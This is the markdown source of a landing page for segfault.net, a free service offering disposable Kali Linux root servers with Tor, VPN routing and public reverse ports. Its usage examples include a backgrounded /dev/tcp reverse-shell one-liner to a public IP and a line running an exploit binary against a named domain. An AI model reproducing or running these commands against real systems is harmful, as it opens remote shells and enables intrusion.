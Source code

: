 ```yaml
---
layout: default
---
```


<div style="text-align:center"><h1>Disposable Root Servers</h1></div>

<div style="width:80%; margin:auto">
</div>

### Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

### What it does

Segfault offers free unlimitd Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection. 

* Dedicated ```Root Server``` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to ```.onion``` addresses.
* Log in via ```.onion```, ```.gsocket``` or direct ```ssh``` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured ```.onion``` web server. Just put your files in /onion.
* Encrypted storage in ```/sec``` and ```/home``` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

### Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**
```shell
apt install nmap && nmap -thc
```

**Work the Internet**
```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**
```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt
```
```shell
# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Work the DarkNet:**
```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**
```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**
```shell
ssh -D 1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```

**Connect to your own public PORT:**  
```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.
```
```shell
# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

### How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](youcheapfuck) in place. You may want to [pay for an upgrade and go unrestricted](buy-an-upgrade).

The **PREMIUM* service has no restriction. Go premium by donating money or contact us - we give premium access to most users who work on a cool project or users who participate in our discussions.

### Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)

### Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  
